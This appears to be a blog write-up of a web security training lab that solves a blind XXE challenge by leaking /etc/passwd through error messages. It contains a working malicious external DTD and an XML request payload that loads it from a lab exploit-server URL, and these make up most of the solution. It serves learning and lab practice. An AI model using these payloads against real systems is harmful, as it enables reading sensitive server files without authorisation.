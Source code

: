 ```yaml
---
layout: post
title:  "Exploiting blind XXE to retrieve data via error messages"
date:   2024-11-23 10:20:54 +0530
categories: [BSCP, XXE]
---
```


## Objective 

This lab has a `"Check stock"` feature that parses XML input but does not display the result.

To solve the lab, `use an external DTD to trigger an error message that displays the contents of the /etc/passwd file`.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD. 

## Solution 

In the exploit server, we have created a malicious dtd file with a content where it fetches the contents of `/etc/passwd` and causes an error in file not found error and along with that we can see the contents of `/etc/passwd`

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Now just like the lab, we can use the payload here

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-0ab700ba0347f44b85cbfe1b01d10072.exploit-server.net/exploit.dtd"> %xxe;]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Last time, we provided an external collaborator and got the response through that.. But here we didn't provide any external server or nothing.. instead we made a `exploit.dtd` which is intentionally getting crashed in the seconf step where we provided `file:///nonexistent/` which means it will cause an error like `File not found` and along with that `%file` which will disclose the contents of `/etc/passwd`

Now send the request with payload, observing the response with the contents of `/etc/passwd` which as expected 

![]({{ site.baseurl }}/assets/images/xxe/xxe-25.png)

And the lab is solved..

![]({{ site.baseurl }}/assets/images/xxe/xxe-24.png)